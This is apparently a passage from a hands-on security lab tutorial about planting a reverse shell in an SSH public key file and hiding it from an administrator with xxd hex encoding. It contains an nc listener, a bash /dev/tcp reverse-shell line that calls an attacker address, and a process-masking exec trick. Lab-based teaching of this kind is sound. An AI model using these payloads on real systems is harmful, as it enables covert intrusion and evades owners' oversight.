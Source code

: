 ## Lab #2 - Hiding things

As the bad guy, you'll want to make things a bit more interesting by hiding (from the real admin) that you're connected to the SERVER.  This can be accomplished by using the xxd command to encode your command string.

One of xxd capabilities is that it can encode it's input so that it's output is "mail-safe", in that  the ouput is made up of nothing but readable ASCII characters.  This is done via the "-ps" switch.  The process can be reversed with the "-r" switch.

A side effect of using xxd is that you get the ability to use multi-line commands in your payload, instead of having to build your command to run on one line.

To practice using xxd, try:

1) Run the following:

   ```c
   echo "Hello world!" | xxd -ps
   ```

   The output should look something like:

   ```c
   48656c6c6f20576f726c64210a
   ```

3) Copy the above output and run the following:

   ```c
   echo "48656c6c6f20576f726c64210a" | xxd -r -ps
   ```

   You should see the original "Hello world!" string.

For multi-line payloads, write your scripts into a text file, then cat it and pipe that output to "xxd -ps".

Following is a simple 2-line payload that you can add to the public_key.

1) Reset the lab.

2) Open two terminal windows.  Name one "ADMIN" and the other "BAD GUY".

3) In the BAD GUY window, run:

   ```c
   nc -lvnp 4444
   ```

4) In the ADMIN window, ssh to 10.0.0.1 and create a RSA keypair for SSH.

5) In the ADMIN window, create a file called temp.txt so that it contains:

   ```c
   bash -c "/bin/bash -i >& /dev/tcp/10.0.0.250/4444 0>&1" >/dev/null 2>/dev/null &
   exec -a -$(basename /bin/bash) /bin/bash
   ```

6) Run the following to encode the above.

   ```c
   cat temp.txt | xxd -ps | tr -d '\n' 2>/dev/null;echo ''
   ```
